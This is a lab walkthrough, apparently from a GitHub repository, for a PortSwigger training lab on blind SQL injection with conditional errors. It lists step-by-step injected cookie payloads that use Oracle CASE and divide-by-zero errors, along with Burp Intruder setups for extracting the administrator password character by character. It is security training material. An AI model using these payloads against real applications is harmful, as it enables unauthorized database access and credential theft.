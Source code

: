 # Blind SQL injection with conditional errors

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

---

#blind_sql #oracle_database

**NOTE:** SQL CASE

![screnshot](images/lab12_1.jpg)

![screnshot](images/lab12_2.jpg)

step 1

Since this lab is conditional error
so we have to focus on TrackingId
go to proxy
URL encoded Format
http history
URL encoded Format
select any Request
URL encoded Format
then send to repeater

![screnshot](images/lab12_3.jpg)

step 2

add `'` just after TrackingId

```sql
TrackingId=eXEM2vNsn8D3g49m'
```

![screnshot](images/lab12_4.jpg)

step 3

add `''`

```sql
TrackingId=eXEM2vNsn8D3g49m''
```

![screnshot](images/lab12_5.jpg)

step 4

add `'||(SELECT '')||'`
URL Encoded (CTRL + u ) `'||(SELECT+'')||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+'')||'
```

you will get 500 Internal Sever Error it means database don't support such query

![screnshot](images/lab12_6.jpg)

step 5

**NOTE:** `From dual` used for `oracle`
add 
`'||(SELECT '' FROM DUAL)||'`
URL encoded Format
`'||(SELECT+''+FROM+DUAL)||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+''+FROM+DUAL)||'
```

![screnshot](images/lab12_7.jpg)

step 6

find any table which doesn't exist
add 
`'||(SELECT '' FROM any_table)||'`
URL encoded Format
`'||(SELECT+''+FROM+any_table)||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+''+FROM+any_table)||'
```

![screnshot](images/lab12_8.jpg)

step 7

To verify users table exist send this query

**NOTE:** ROWNUM =1 will prevent to return more than one row otherwise you will get error
add 
`'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`

URL encoded Format
`'||(SELECT+''+FROM+users+WHERE+ROWNUM+%3d+1)||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+''+FROM+users+WHERE+ROWNUM+%3d+1)||'
```

you will get 200 ok response

![screnshot](images/lab12_9.jpg)

step 8

test exploit
**NOTE:** expression contains a divide-by-zero _(1/0)_ , which causes an error

add
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'
```

Here 1 = 1 is true then 1/0 which create error so you will get Internal Server Error which means exploit work well

![screnshot](images/lab12_10.jpg)

step 9

test exploit
`'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+(1%3d2)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+(1%3d2)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'
```

Here 1=2 is false then query become `'||(SELECT '' FROM DUAL)||'` which give 200 response

![screnshot](images/lab12_11.jpg)

step 10

test exploit for username administrator
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```

Here 1 = 1 is true then 1/0 which create error so you will get Internal Server Error which means exploit work well

![screnshot](images/lab12_12.jpg)

step 11

test exploit for Password Length
`'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+LENGTH(password)>1+THEN+to_char(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+LENGTH(password)>1+THEN+to_char(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```

![screnshot](images/lab12_13.jpg)

step 12

use Intruder to find out length of password
`'||(SELECT CASE WHEN LENGTH(password)>§1§ THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+LENGTH(password)>§1§+THEN+to_char(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+LENGTH(password)>§1§+THEN+to_char(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```

![screnshot](images/lab12_14.jpg)

payload position,Grep Match and after attack result shows 20 length of password
![screnshot](images/lab12_15.jpg)

step 13

test exploit for password first alphabet containing a
`'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+SUBSTR(password,1,1)%3d'a'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+SUBSTR(password,1,1)%3d'a'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```

Here you get 200 ok it means a is not first alphabet password

![screnshot](images/lab12_16.jpg)

step 14

use intruder to find out password
`'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+SUBSTR(password,§1§,1)%3d'§a§'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+SUBSTR(password,§1§,1)%3d'§a§'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```

![screnshot](images/lab12_17.jpg)

here payload 1, payload 2 and Grep Match
![screnshot](images/lab12_18.jpg)

final result after attacking
![screnshot](images/lab12_19.jpg)

note down each alphabet and digit from payload 2 according to payload 1
like 1 is o and 20 is 6
`o9z230ft5zxkrhh3k3c6`

step 15

To solve the lab enter administrator as username and `o9z230ft5zxkrhh3k3c6` as password

![screnshot](images/lab12_20.jpg)
